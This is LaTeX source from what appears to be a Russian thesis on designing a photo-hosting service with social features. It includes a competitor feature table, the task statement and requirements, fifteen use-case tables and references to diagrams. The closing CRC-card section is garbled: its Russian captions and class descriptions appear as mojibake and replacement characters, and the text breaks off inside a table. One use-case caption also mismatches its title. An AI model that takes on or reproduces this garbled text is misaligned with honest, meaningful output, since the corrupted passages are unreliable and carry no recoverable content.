\addimghere{google-photo}{0.9}{Веб интерфейс сервиса Google Photo, содержащий неверные результаты выдачи поискового запроса "животные"}{google-photo}

Сравнение ведущих решений для хранения фотографий представлены в таблице \ref{comp-table}.
\begin{landscape}
\begin{table}[H]
  \caption{Функциональность конкурирующих продуктов}\label{comp-table}
  \begin{spacing}{1}
  \smalltable
  %\renewcommand{\arraystretch}{1.0}
  \begin{tabular}{|p{5.8cm}|p{2.8cm}|p{2.8cm}|p{2.8cm}|p{2.6cm}|p{2.8cm}|p{2.7cm}|} %14.5cm*
  \hline Сравнение особенностей & Конкурент А фотохостинг & Конкурент В фотохостинг & Конкурент C фотохостинг & Конкурент D фотохостинг & Конкурент E фотохостинг & Конкурент F фотохостинг \\ 
  \hline URL компании & flickr.com & 500px.com & photos.google.com & disk.yandex.ru & apple.com & instagram.com \\ 
  \hline Классификация продукта & Фотохостинг-соцсеть & Фотохостинг-соцсеть & Фотохостинг & Фотохостинг & Локальный фотохостинг & Соцсеть-фотохостинг \\ 
  \hline Варианты клиентов & Android, iOS, web & Android, iOS, web & Android, iOS, web & Android, iOS, web & macOS, iOS & iOS, android \\ 
  \hline Объем бесплатного хранилища & 1000 фотографий & 7 фотографий в неделю & ∞ if size <16Mp & 10 gb & Локальное хранилище & ∞ но низкое качество \\ 
  \hline Загрузка исходников фотографиии & - & - & + & + & + & - \\ 
  \hline Возможность тегирования фотографий & + & + & +/- & - & +/- & + \\ 
  \hline Настройки приватности для фотографии & + & - & + & + & - & +/- \\ 
  \hline Настройки лицензирования & + & + & - & - & - & - \\ 
  \hline Встроенный фоторедактор & + & - & + & + & + & + \\ 
  \hline Комментирование & + & + & - & + & - & + \\ 
  \hline Сохранение фотографий других людей & + & + & - & - & - & + \\ 
  \hline Скачивание оригинала фотографии & + & - & + & + & + & - \\ 
  \hline Скачивание фотографии в нескольких размерах & + & - & - & - & - & - \\ 
  \hline Навигация с помощью клавиш & + & + & + & - & + & - \\ 
  \hline Просмотр ссводной статистики & + & + & - & - & - & + \\ 
  \hline Замена фотографии & + & - & - & - & - & - \\ 
  \hline Авторасстановка тегов & - & - & + & - & - & - \\ 
  \hline Распознавание лиц & - & - & + & - & + & - \\ 
  \hline Распознавание разных людей & - & - & - & - & + & - \\ 
  \hline Модерирование комментариев & + & + & - & - & - & + \\ 
  \hline Автозащита фотографий внутри сервиса от копирования & - & - & - & - & - & - \\ 
  \hline Чтение информации из exif & + & + & - & - & + & - \\ 
  \hline Лента актуальных публичных фотографий & + & + & - & - & - & + \\ 
  \hline Монетизация & - & + & - & - & - & +/- \\ 
  \hline Суммарное количество особенностей на сайте & 15 & 11 & 9 & 6 & 7 & 8 \\ 
  \hline Рейтинг эффективности & ****** & ***** & **** & * & ** & *** \\
  \hline
  \end{tabular}
  \end{spacing}
\end{table}
\end{landscape}

\subsection{Постановка задачи}\label{problem-formulation}
После проведённого анализа существующих программных продуктов было принято решение о разработке собственного интернет-сервиса для хранения фотографий с элементами социальной сети. 
Предполагается, что фотохостинг будет реализовывать функционал по автоматической индексации фотографий при загрузке с возможностью в дальнейшем осуществлять поиск фотографий в хранилище по индексированным данным.

Для достижения поставленной цели необходимо решить следующие задачи:
\begin{enumerate}
    \item изучить предметную область;
    \item проанализировать существующие решения;
    \item спроектировать схему индексации;
    \item спроектировать архитектуру приложения;
    \item выбрать технологии реализации;
    \item обосновать выбранные средства программной реализации;
    \item реализовать прототип программного решения;
    \item протестировать прототип программного решения на конечных пользователях;
    \item доработать прототип до стадии готового продукта;
    \item запустить продукт в эксплуатацию.
\end{enumerate}

Онлайн сервис для публикации фотографий должен обладать следующими характеристиками:
\begin{itemize}
    \item возможность загрузки и хранения фотографий с возможностью просмотра и дальнейшего скачивания;
    \item организация хранилища фотографий пользователей в автоматическом или полуавтоматическом режиме с возможностью осуществления дальнейшего поиска по необходимым критериям;
    \item возможность публикации фотографий в сети интернет;
    \item индексирование загружаемых фотографий по цветам для осуществления возможности дальнейшего поиска фотографий по цветам;
    \item возможность комментирования и оценивания фотографий, загруженных в сервис;
    \item возможность обмена сообщениями с другими пользователями;
    \item автоматическая классификация фотографий по набору тегов;
    \item задание пользовательских тегов;
    \item поиск фотографии по кластерам цветов.
\end{itemize}

Для обеспечения безопасной и непрерывной работы пользователями программное решение должно отвечать следующим требованиям:
\begin{itemize}
    \item парольная аутентификация и разграничение прав доступа пользователей;
    \item регистрация пользователей с подтверждением прохождения регистрации посредством email или смс;
    \item протоколирование действий пользователей.
\end{itemize}

\clearpage % Постановка задачи
\section{Проектирование}

\subsection{Функциональные требования}

Программа должна обеспечивать возможность выполнения перечисленных ниже функций:
\begin{itemize}
  \item загрузка и хранение фотографий с возможностью просмотра и дальнейшего скачивания;
  \item разграничение прав доступа, регистрация пользователей с подтверждением прохождения регистрации посредством email или смс, авторизация пользователей;
  \item организация хранилища фотографий пользователей в автоматическом или полуавтоматическом режиме с возможностью осуществления дальнейшего поиска по необходимым критериям;
  \item возможность публикации фотографий в сети интернет;
  \item возможность комментирования и оценивания фотографий, загруженных в сервис;
  \item индексирование загружаемых фотографий по цветам для осуществления возможности дальнейшего поиска фотографий по цветам;
  \item классификация фотографий с использованием нейронных сетей и индексирование результатов с целью возможности дальнейшего поиска фотографий по данному критерию.
\end{itemize}

\subsection{Классы и характеристики пользователей}

Перечень классов пользователей системы и их краткая характеристика представлены в таблице \ref{user-classes-table}.
\begin{table}[H]
  \caption{Классы и характеристики пользователей системы хранения фотографий}\label{user-classes-table}
  \begin{tabular}{|p{4cm}|p{12cm}|}
  \hline Класс пользователей & Описание \\ 
  \hline Посетитель & Посетитель – человек, просматривающий фотографии, загруженные в сервис и доступные для всех, но не являющийся зарегистрированным пользователем \\ 
  \hline Пользователь & Человек, прошедший регистрацию и подтвердивший себя посредством СМС или email. Отличается от посетителя большим набором возможностей, таким как публикация фотографий \\ 
  \hline
  \end{tabular}
\end{table}

\subsection{Варианты использования}
Перечень вариантов использования системы приведена в таблице \ref{use-case-table}.
Диаграмма вариантов использования на рисунке \ref{use-case} показывает варианты использования системы и связанные с ними действующие лица.

\begin{table}[H]
  \caption{Варианты использования системы хранения фотографий}\label{use-case-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline Основное действующее лицо & Вариант использования \\
  \hline \multirow{6}{*}{Посетитель} & 1. Пройти регистрацию \\
  \cline{2-2} & 2. Просмотреть ленту популярных фотографий \\
  \cline{2-2} & 3. Просмотреть фотографии пользователя \\
  \cline{2-2} & 4. Просмотреть информацию о фотографии \\
  \cline{2-2} & 5. Осуществить поиск фотографии по необходимым критериям \\
  \cline{2-2} & 6. Авторизоваться \\
  \hline \multirow{10}{*}{Пользователь} & 1. Привязать популярные соц сети \\
  \cline{2-2} & 2. Создать пост в соц сетях \\
  \cline{2-2} & 3. Настроить приватность фотографии \\
  \cline{2-2} & 4. Настроить защиту от копирования \\
  \cline{2-2} & 5. Оценить фотографию \\
  \cline{2-2} & 6. Прокомментировать фотографию \\
  \cline{2-2} & 7. Просмотреть статистику \\
  \cline{2-2} & 8. Сохранить в избранное \\
  \cline{2-2} & 9. Подписаться на публикации других пользователей \\
  \cline{2-2} & 10. Опубликовать фотографию \\
  \hline
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 1 – Пройти регистрацию}\label{use-case-1-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 1 \\
  \hline Название варианта использования: & Пройти регистрацию \\
  \hline Действующие лица: & Посетитель \\
  \hline Описание: & Посетитель заполняет форму со своими данными для последующей авторизации и подтверждает регистрацию \\
  \hline Предварительные условия: & Нет \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{7}{*}{Нормальное направление:} & 1.0  Пройти регистрацию \\
  \cline{2-2} & 1. Пользователь заполняет форму с данными, основными являются логин, пароль и email или номер телефона \\
  \cline{2-2} & 2. Нажимает кнопку регистрации на форме \\
  \cline{2-2} & 3. Система создает в БД запись о пользователе и генерирует токен для подтверждения учетной записи. Токен отправляется посредством email или смс \\
  \cline{2-2} & 4. Пользователь получает токен для подтверждения прохождения регистрации \\
  \cline{2-2} & 5. Подтверждает регистрацию на сайте \\
  \cline{2-2} & 6. Система отмечает, что пользователь успешно зарегистрирован и авторизовывает его. Посетитель становится пользователем. \\
  \hline Альтернативные направления: &  \\
  %\hline \multirow{4}{*}{Исключения:} & 1.0.И.1 Пользователь ввел пароль, не удовлетворяющий условиям безопасности \\
  %\cline{2-2} & 1. Сообщение об ошибке, возврат к пункту 1. \\
  %\cline{2-2} & 1.2.И.2 Пользователь ввел неверный токен для подтверждения регистрации \\
  %\cline{2-2} & 1. Сообщение об ошибке, генерация нового токена и повторная отправка \\
  %\hline Включает: &  \\
  %\hline Приоритет: & Высокий \\
  %\hline Особые требования: &  \\
  \hline
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 2 – Просмотреть ленту популярных фотографий}\label{use-case-2-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 2 \\
  \hline Название варианта использования: & Просмотреть ленту популярных фотографий \\
  \hline Действующие лица: & Посетитель \\
  \hline Описание: & Посетитель открывает веб страницу, на которой содержатся все популярные фотографии за определенный промежуток времени \\
  \hline Предварительные условия: & В сервисе загружены фотографии, доступ к которым разрешен всем \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{4}{*}{Нормальное направление:} & 2.0 Просмотреть ленту популярных фотографий \\
  \cline{2-2} & 1. Посетитель открывает страницу с популярными фотографиями \\
  \cline{2-2} & 2. Сервис формирует список популярных фотографий, доступных всем, за определенный промежуток времени и отправляет посетителю \\
  \cline{2-2} & 3. Посетитель путем скроллинга веб страницы осуществляет просмотр популярных фотографий \\
  \hline Альтернативные направления: &  \\
  \hline \multirow{2}{*}{Исключения:} & 2.0.И.1 Отсутствуют фотографии, доступные всем \\
  \cline{2-2} & 1. Сообщение об ошибке на странице просмотра фотографий \\
  \hline Включает: &  \\
  \hline Приоритет: & Низкий \\
  \hline Особые требования: & \\
  \hline
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 3 – Просмотреть ленту популярных фотографий}\label{use-case-3-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 3 \\
  \hline Название варианта использования: & Просмотреть фотографии пользователя \\
  \hline Действующие лица: & Посетитель \\
  \hline Описание: & Посетитель просматривает фотографии пользователя, доступные всем \\
  \hline Предварительные условия: & Пользователь, фотографии которого пытается просмотреть посетитель, существует и загрузил хотя бы одну фотографию, доступную для просмотра всем \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{4}{*}{Нормальное направление:} & 3.0 Просмотреть фотографии пользователя \\
  \cline{2-2} & 1. Посетитель открывает страницу в профиле пользователя с фотографиями \\
  \cline{2-2} & 2. Сервис формирует список фотографий пользователя, доступный всем \\
  \cline{2-2} & 3. Посетитель путем скроллинга веб страницы осуществляет просмотр фотографий \\
  \hline Альтернативные направления: &  \\
  %\hline \multirow{4}{*}{Исключения:} & 3.0.И.1 Пользователь, фотографии которого пытается просмотреть посетитель, не существует \\
  %\cline{2-2} & 1. Сообщение об ошибке, система перенаправляет пользователя к главному окну \\
  %\cline{2-2} & 3.0.И.2 Пользователь, фотографии которого пытается просмотреть посетитель, не сделал ни одной фотографии доступной всем \\
  %\cline{2-2} & 1. Сообщение об ошибке на странице просмотра фотографий \\
  %\hline Включает: &  \\
  %\hline Приоритет: & Низкий \\
  %\hline Особые требования: &  \\
  \hline 
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 4 - Просмотреть информацию о фотографии}\label{use-case-4-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 4 \\
  \hline Название варианта использования: & Просмотреть информацию о фотографии \\
  \hline Действующие лица: & Посетитель \\
  \hline Описание: & Посетитель просматривает информацию о фотографии, такую как метаданные фотографии, теги, количество пользователей, которым понравилась фотография и т.п.  \\
  \hline Предварительные условия: & Фотография, информацию о которой пытается просмотреть посетитель, существует и доступна для просмотра всем \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{4}{*}{Нормальное направление:} & 4.0 Просмотреть информацию о фотографии \\
  \cline{2-2} & 1. Посетитель открывает страницу с фотографией \\
  \cline{2-2} & 2. Система находит фотографию и всю информацию о ней \\
  \cline{2-2} & 3. Посетитель просматривает доступную информацию о фотографии \\
  \hline Альтернативные направления: &  \\
  %\hline \multirow{4}{*}{Исключения:} & 4.0.И.1 Отсутствует фотография, информацию о которой. Пытается просмотреть посетитель, или фотография недоступна для всех \\
  %\cline{2-2} & 1. Сообщение об ошибке, система перенаправляет пользователя к главному окну \\
  %\cline{2-2} & 4.0.И.2 Не найдена какая-то информация о фотографии \\
  %\cline{2-2} & 1. Сообщение об ошибке на странице просмотра информации о фотографии \\
  %\hline Включает: &  \\
  %\hline Приоритет: & Высокий \\
  %\hline Особые требования: & \\
  \hline
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 5 – Осуществить поиск фотографии по необходимым критериям}\label{use-case-5-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 5 \\
  \hline Название варианта использования: & Осуществить поиск фотографии по необходимым критериям \\
  \hline Действующие лица: & Посетитель \\
  \hline Описание: & Посетитель осуществляет поиск фотографий с необходимыми ему критериями, такими, как цвет на фотографии, содержимое фотографии и т.д. \\
  \hline Предварительные условия: & Хотя бы одна фотография загружена в сервис и проиндексирована для поиска \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{5}{*}{Нормальное направление:} & 5.0 Осуществить поиск фотографии по необходимым критериям \\
  \cline{2-2} & 1. Посетитель открывает страницу поиска фотографий \\
  \cline{2-2} & 2. Вводит необходимые ему критерии \\
  \cline{2-2} & 3. Система формирует список фотографий \\
  \cline{2-2} & 4. Посетитель путем скроллинга веб страницы просматривает список найденных фотографий \\
  \hline Альтернативные направления: &  \\
  \hline \multirow{2}{*}{Исключения:} & 5.0.И.1 Фотографии с заданными критериями поиска не найдены \\
  \cline{2-2} & 1. Сообщение об ошибке на странице поиска фотографий \\
  \hline Включает: &  \\
  \hline Приоритет: & Высокий \\
  \hline Особые требования: &  \\
  \hline 
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 6 – Авторизоваться}\label{use-case-6-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 6 \\
  \hline Название варианта использования: & Авторизоваться \\
  \hline Действующие лица: & Посетитель \\
  \hline Описание: & Посетитель вводит логин и пароль от принадлежащей ему учетной записи пользователя и авторизовывается \\
  \hline Предварительные условия: & Пользователь, данные которого вводятся, зарегистрирован в системе \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{5}{*}{Нормальное направление:} & 6.0 Авторизоваться \\
  \cline{2-2} & 1. Посетитель открывает страницу авторизации \\
  \cline{2-2} & 2. Вводит логин и пароль \\
  \cline{2-2} & 3. При включенной у учетной записи пользователя двухфакторинговой авторизации вводит дополнительные данные для входа \\
  \cline{2-2} & 4. Система. Авторизует пользователя и перенаправляет на главную страницу \\
  \hline Альтернативные направления: &  \\
  \hline Исключения: &  \\
  \hline Включает: &  \\
  \hline Приоритет: & Высокий \\
  \hline Особые требования: &  \\
  \hline
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 7 - Привязать популярные соц сети}\label{use-case-7-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 7 \\
  \hline Название варианта использования: & Привязать популярные соц сети \\
  \hline Действующие лица: & Пользователь \\
  \hline Описание: & Пользователь привязывает аккаунт соц сети с целью дальнейшего создания постов и публикации фотографий в соц сети \\
  \hline Предварительные условия: & Пользователь авторизован \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{7}{*}{Нормальное направление:} & 7.0 Привязать популярные соц сети \\
  \cline{2-2} & 1. Пользователь открывает страницу своего профиля \\
  \cline{2-2} & 2. Выбирает необходимую ему социальную сеть из списка предложенных \\
  \cline{2-2} & 3. Система перенаправляет пользователя на страницу социальной сети для авторизации  \\
  \cline{2-2} & 4. Пользователь авторизуется в соц сети \\
  \cline{2-2} & 5. Соц сесть перенаправляет пользователя обратно в систему \\
  \cline{2-2} & 6. Система привязывает переданный соц сетью токен к пользователю \\
  \hline Альтернативные направления: &  \\
  \hline Исключения: &  \\
  \hline Включает: &  \\
  \hline Приоритет: & Низкий \\
  \hline Особые требования: &  \\
  \hline 
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 8 – Создать пост в соц сетях}\label{use-case-8-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 8 \\
  \hline Название варианта использования: & Создать пост в соц сетях \\
  \hline Действующие лица: & Пользователь \\
  \hline Описание: & Пользователь при создани поста отмечает о необходимости его публикации в социальных сетях. Пост автоматически публикуется во всех отмеченных соц сетях \\
  \hline Предварительные условия: & Пользователь авторизован и хотя бы один аккаунт социальной сети привязан к аккаунту пользователя \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{4}{*}{Нормальное направление:} & 8.0 Создать пост в соц сетях \\
  \cline{2-2} & 1. Пользователь переходит на страницу создания поста \\
  \cline{2-2} & 2. Формирует пост для дальнейшей публикации \\
  \cline{2-2} & 3. Публикует внутри сервиса и при публикации отмечает о необходимости публикации в аккаунте социальной сети \\
  \hline Альтернативные направления: &  \\
  \hline Исключения: &  \\
  \hline Включает: &  \\
  \hline Приоритет: & Низкий \\
  \hline Особые требования: &  \\
  \hline 
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 9 – Настроить приватность фотографии}\label{use-case-9-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 9 \\
  \hline Название варианта использования: & Настроить приватность фотографии \\
  \hline Действующие лица: & Пользователь \\
  \hline Описание: & Пользователь настраивает доступ к фотографии определенному кругу лиц \\
  \hline Предварительные условия: & Пользователь авторизован и загрузил фотографию, доступ к которой хочет настроить \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{4}{*}{Нормальное направление:} & 9.0 Настроить приватность фотографии \\
  \cline{2-2} & 1. Пользователь открывает страницу настроек фотографии \\
  \cline{2-2} & 2. Переходит к форме настройки листов доступа \\
  \cline{2-2} & 3. Выбирает тип доступа и настраивает листы доступа \\
  \hline Альтернативные направления: &  \\
  \hline Исключения: &  \\
  \hline Включает: &  \\
  \hline Приоритет: & Низкий \\
  \hline Особые требования: &  \\
  \hline 
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 10 – Оценить фотографию}\label{use-case-10-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 10 \\
  \hline Название варианта использования: & Оценить фотографию \\
  \hline Действующие лица: & Пользователь \\
  \hline Описание: & Пользователь оценивает понравившуюся ему фотографию \\
  \hline Предварительные условия: & Пользователь авторизован и имеет доступ к фотографии, которую хочет оценить \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{3}{*}{Нормальное направление:} & 10.0 Оценить фотографию \\
  \cline{2-2} & 1. Пользователь открывает страницу фотографии \\
  \cline{2-2} & 2. Нажимает кнопку оценки фотографии \\
  \hline Альтернативные направления: &  \\
  \hline Исключения: &  \\
  \hline Включает: &  \\
  \hline Приоритет: & Низкий \\
  \hline Особые требования: &  \\
  \hline 
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 11 – Прокомментировать фотографию}\label{use-case-11-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 11 \\
  \hline Название варианта использования: & Прокомментировать фотографию \\
  \hline Действующие лица: & Пользователь \\
  \hline Описание: & Пользователь оставляет комментарий к фотографии или в ответ на другой комментарий \\
  \hline Предварительные условия: & Пользователь авторизован и имеет доступ к фотографии, к которой хочет оставить комментарий \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{3}{*}{Нормальное направление:} & 11.0 Прокомментировать фотографию \\
  \cline{2-2} & 1. Пользователь открывает страницу фотографии \\
  \cline{2-2} & 2. Вводит комментарий в форму ввода под фотографией или необходимым комментарием и нажимает кнопку «отправить» \\
  \hline Альтернативные направления: &  \\
  \hline Исключения: &  \\
  \hline Включает: &  \\
  \hline Приоритет: & Низкий \\
  \hline Особые требования: &  \\
  \hline 
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 12 – Просмотреть статистику}\label{use-case-12-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 12 \\
  \hline Название варианта использования: & Просмотреть статистику \\
  \hline Действующие лица: & Пользователь \\
  \hline Описание: & Пользователь просматривает глобальную статистику фотографий по сервису или статистику по одной из своих фотографий \\
  \hline Предварительные условия: & Пользователь авторизован \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{3}{*}{Нормальное направление:} & 12.0 Просмотреть статистику \\
  \cline{2-2} & 1. Пользователь открывает страницу с глобальной статистикой \\
  \cline{2-2} & 2. Просматривает глобальную статистику фотографий по сервиису \\
  \hline Альтернативные направления: &  \\
  \hline Исключения: &  \\
  \hline Включает: &  \\
  \hline Приоритет: & Низкий \\
  \hline Особые требования: &  \\
  \hline 
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 13 – Сохранить в избранное}\label{use-case-13-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 13 \\
  \hline Название варианта использования: & Сохранить в избранное \\
  \hline Действующие лица: & Пользователь \\
  \hline Описание: & Пользователь сохраняет понравившуюся фотографию в избранное внутри сервиса \\
  \hline Предварительные условия: & Пользователь авторизован и имеет доступ к фотографии, которую хочет сохранить в избранное \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{2}{*}{Нормальное направление:} & 13.0 Сохранить в избранное \\
  \cline{2-2} & 1. Пользователь нажимает на кнопку «сохранить в избранное» рядом с понравившейся фотографией \\
  \hline Альтернативные направления: &  \\
  \hline Исключения: &  \\
  \hline Включает: &  \\
  \hline Приоритет: & Низкий \\
  \hline Особые требования: &  \\
  \hline 
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 14 – Подписаться на публикации других пользователей}\label{use-case-14-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 14 \\
  \hline Название варианта использования: & Подписаться на публикации других пользователей \\
  \hline Действующие лица: & Пользователь \\
  \hline Описание: & Пользователь добавляет в свою персональную ленту интересных публикаций и фотографий все фотографии и посты другого пользователя \\
  \hline Предварительные условия: & Пользователь авторизован \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{3}{*}{Нормальное направление:} & 14.0 Подписаться на публикации других пользователей \\
  \cline{2-2} & 1. Пользователь переходит на страницу пользователя, на публикации которого он хочет подписаться \\
  \cline{2-2} & 2. Нажимает кнопку «подписаться» \\
  \hline Альтернативные направления: &  \\
  \hline Исключения: &  \\
  \hline Включает: &  \\
  \hline Приоритет: & Низкий \\
  \hline Особые требования: &  \\
  \hline 
  \end{tabular}
\end{table}

\begin{table}[H]
  \caption{Вариант использования - 15 – Опубликовать фотографию}\label{use-case-15-table}
  \begin{tabular}{|p{6cm}|p{10cm}|}
  \hline № варианта использования: & Вариант использования - 15 \\
  \hline Название варианта использования: & Опубликовать фотографию \\
  \hline Действующие лица: & Пользователь \\
  \hline Описание: & Пользователь загружает фотографию в сервис \\
  \hline Предварительные условия: & Пользователь авторизован \\
  \hline Выходные условия: & Нет \\
  \hline \multirow{4}{*}{Нормальное направление:} & 15.0 Опубликовать фотографию \\
  \cline{2-2} & 1. Пользователь переходит на страницу загрузки фотографии \\
  \cline{2-2} & 2. Добавляет новую фотографию \\
  \cline{2-2} & 3. Настраивает доступ к фотографии и выставляет теги к фотографии из списка предложенных и/или самостоятельно \\
  \hline Альтернативные направления: &  \\
  \hline Исключения: &  \\
  \hline Включает: &  \\
  \hline Приоритет: & Низкий \\
  \hline Особые требования: & \\
  \hline
  \end{tabular}
\end{table}

\begin{landscape}
    \addimg{use-case}{1.0}{Диаграмма вариантов использования программного решения для хранения фотографий}{use-case}
\end{landscape}

\subsection{Структура базы данных}
На рисунке \ref{database-structure-1} представлена модель базы данных программного решения.
\addimghere{database-structure-1}{0.8}{Модель базы данных программного решения для хранения фотографий}{database-structure-1}

\subsection{Диаграмма классов}
На рисунках \ref{class-diagram-1} и \ref{class-diagram-2} представлены диаграммы классов программного решения.
\addimghere{class-diagram-1}{1}{Диаграмма классов сущностей и репозиториев программного решения для хранения фотографий}{class-diagram-1}
\addimg{class-diagram-2}{1}{Диаграмма классов контроллеров программного решения для хранения фотографий}{class-diagram-2}
\begin{landscape}
    \subsection{Диаграмма активностей}
    На рисунке \ref{activity-registration} представлена диаграмма активностей процесса регистрации пользователя.
    \addimghere{activity-registration}{0.7}{Диаграмма активностей процесса регистрации пользователя}{activity-registration}
\end{landscape}

\subsection{Описание классов}
На рисунках \ref{crc-table-1}-\ref{crc-table-last} представлены CRC карточки сервиса с элементами социальной сети для публикации фотографий

\newcommand{\bdot}{\(\bullet\hspace{0.5em}\)}

\begin{table}[H]
\caption{CRC ����窠 ����� ImageProcessServiceApplication}\label{crc-table-1}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{ImageProcessServiceApplication} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ main ����� } 
& \bdot ColorProperties \\
& \bdot FileStorageProperties \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� OnRegistrationCompleteEvent}\label{crc-table-2}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & ApplicationEvent \\
\multicolumn{2}{|c|}{OnRegistrationCompleteEvent} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����⨥ - �����襭�� ॣ����樨  & \bdot FileStorageProperties \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� RegistrationListener}\label{crc-table-3}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & ApplicationListener \\
\multicolumn{2}{|c|}{RegistrationListener} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{3}{=}{ ����⥫� ᮡ�⨩ ॣ����樨 } 
& \bdot UserAccount \\
& \bdot OnRegistrationCompleteEvent \\
& \bdot IUserService \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ColorUtils}\label{crc-table-4}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{ColorUtils} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �⨫��� �� ࠡ�� � 梥⠬�  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� }\label{crc-table-5}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline enum &  \\
\multicolumn{2}{|c|}{} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �஢����� ��⥭�䨪�樨  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� RandomString}\label{crc-table-6}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{RandomString} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �⨫�� ��� �����樨 ��砩��� ��ப �������� �����  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� FileStorageProperties}\label{crc-table-7}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{FileStorageProperties} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����ன�� 䠩������ �࠭���� �ࢨ�  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ColorProperties}\label{crc-table-8}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{ColorProperties} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����ன�� �ࢨ� �� 梥⮢�� �����ਧ�樨  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� SessionListenerWithMetrics}\label{crc-table-9}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & HttpSessionListener \\
\multicolumn{2}{|c|}{SessionListenerWithMetrics} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����⥫� ��ᨩ, �⢥��騩 �� ���ਪ�  & \bdot IUserService \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PasswordDto}\label{crc-table-10}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PasswordDto} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  DTO - ���� + ���� ��஫�  & \bdot IUserService \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PixelPoint}\label{crc-table-11}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & Clusterable \\
\multicolumn{2}{|c|}{PixelPoint} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
